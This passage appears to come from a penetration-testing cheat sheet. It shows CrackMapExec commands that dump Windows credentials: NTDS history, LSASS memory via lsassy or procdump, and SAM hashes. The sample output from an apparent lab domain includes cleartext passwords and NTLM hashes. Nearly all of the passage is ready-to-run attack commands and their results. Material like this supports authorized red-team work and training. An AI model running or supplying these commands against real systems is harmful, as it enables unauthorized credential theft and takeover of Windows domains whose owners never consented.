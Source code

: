 #### Dump NTDS history

```plain
cme smb <target> -u <user> -p <password> --ntds-history
```

### Dump LSASS

```plain
$ ./cme smb 10.10.10.16  -u johndo -p Welkom1234 -d offsec -M lsassy

SMB         10.10.10.16     445    DC2008R2         [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 (name:DC2008R2) (domain:offsec) (signing:True) (SMBv1:True)
SMB         10.10.10.16     445    DC2008R2         [+] offsec\johndo:Welkom1234 (Pwn3d!)
LSASSY      10.10.10.16     445    DC2008R2         offsec\adm_johndo ThisPasswordIsToHardToCrack!
LSASSY      10.10.10.16     445    DC2008R2         offsec.NL\adm_johndo ThisPasswordIsToHardToCrack!
```

If the lsassy module fails, then use the following instead using [sysinternals procdump]({{< ref "sysinternals" >}}):

```plain
$ ./cme smb 10.10.10.16  -u johndo -p Welkom1234 -d offsec -M lsassy -o DUMP_METHOD=2 PROCDUMP_PATH=/sysinternals/procdump.exe

SMB         10.10.10.16     445    DC2008R2         [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 (name:DC2008R2) (domain:offsec) (signing:True) (SMBv1:True)
SMB         10.10.10.16     445    DC2008R2         [+] offsec\johndo:Welkom1234 (Pwn3d!)
LSASSY      10.10.10.16     445    DC2008R2         offsec\adm_johndo ThisPasswordIsToHardToCrack!
LSASSY      10.10.10.16     445    DC2008R2         offsec.NL\adm_johndo ThisPasswordIsToHardToCrack!
```

Other modules that can be used.

* handlekatz
* nanodump

### Dump SAM

```plain
cme smb scope.txt -u administrator -p Welkom1234 --sam
SMB         10.10.10.10      445    DC2016       [*] Windows 10.0 Build 14393 x64 (name:DC2016) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.10      445    DC2016       [+] offsec.nl\administrator:Welkom1234 (Pwn3d!)
SMB         10.10.10.10      445    DC2016       [+] Dumping SAM hashes
SMB         10.10.10.10      445    DC2016       Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f859684db2422704e9e4c2cd7e27b07:::
SMB         10.10.10.10      445    DC2016       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.10      445    DC2016       DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.10      445    DC2016       [+] Added 3 SAM hashes to the database
```
